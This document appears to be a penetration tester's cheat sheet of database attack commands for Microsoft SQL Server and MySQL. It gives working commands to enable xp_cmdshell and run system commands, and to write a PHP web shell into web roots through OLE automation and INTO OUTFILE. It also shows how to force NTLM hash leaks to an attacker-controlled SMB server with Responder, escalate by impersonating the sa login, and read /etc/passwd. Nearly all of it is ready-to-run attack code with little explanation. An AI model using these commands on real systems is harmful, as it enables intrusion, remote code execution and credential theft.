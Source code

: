 


MSSQL command execution 
```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```

MSSQL Enabling xp_cmdshell
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

Enable writing to files with MSSQL (Requires Admin)

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

Creating Files
```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

XP_DIRTREE Hash Stealing
```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

XP_SUBDIRS Hash Stealing
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

```shell-session
sudo responder -I tun0
```

```shell-session
sudo impacket-smbserver share ./ -smb2support
```

Finding Users to impersonate
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

Verifying Current User and Role
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

Impersonating User
```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```




MySQL

Privilege files 
`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

Showing variables
```shell-session
show variables like "secure_file_priv";
```

Writing to Local File
```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

Reading Local File
```shell-session
select LOAD_FILE("/etc/passwd");
```

